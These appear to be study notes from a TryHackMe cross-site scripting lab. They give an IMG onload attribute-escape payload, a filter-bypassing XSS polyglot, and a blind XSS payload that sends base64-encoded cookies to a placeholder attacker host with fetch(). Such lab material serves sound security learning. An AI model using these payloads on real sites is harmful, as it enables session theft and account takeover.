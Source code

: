 Similar to level two, where we had to escape from the value attribute of an input tag, we can try `"><script>alert('THM');</script> `, but that doesn't seem to work. Let's inspect the page source to see why that doesn't work. 

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/8856b113fd514db704157837a6e6aeb4.png)


You can see that the < and > characters get filtered out from our  payload, preventing us from escaping the IMG tag. To get around the  filter, we can take advantage of the additional attributes of the IMG  tag, such as the onload event. The onload event executes the code of  your choosing once the image specified in the src attribute has loaded  onto the web page.

Let's change our payload to reflect this `/images/cat.jpg" onload="alert('THM');` and then viewing the page source, and you'll see how this will work. 

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3260719921aba8ad6eb8d887094fcb87.png)


Now when you click the enter button, you'll get an alert popup with the  string THM. And then, you'll get a confirmation message that your  payload was successful; with this being the last level, you'll receive a flag that can be entered below.

```html
/images/cat.jpg" onload="alert('THM');
```



**Polyglots:**

An XSS polyglot is a string of text which can escape attributes, tags and  bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code  successfully. 

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

#  Practical Example (Blind XSS)

for stealing cookies

```html
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
```

Let's breakdown the payload:

The `</textarea>` tag closes the textarea field. 

The `<script>`tag opens open an area for us to write JavaScript.

The `fetch()` command makes an HTTP request.

`{URL_OR_IP}` is either the THM request catcher URL or your IP address from the THM AttackBox or your IP address on the THM VPN Network.

`?cookie=` is the query string that will contain the victim's cookies.

`btoa()` command base64 encodes the victim's cookies.

`document.cookie` accesses the victim's cookies for the Acme IT Support Website.

`</script>`closes the JavaScript code block.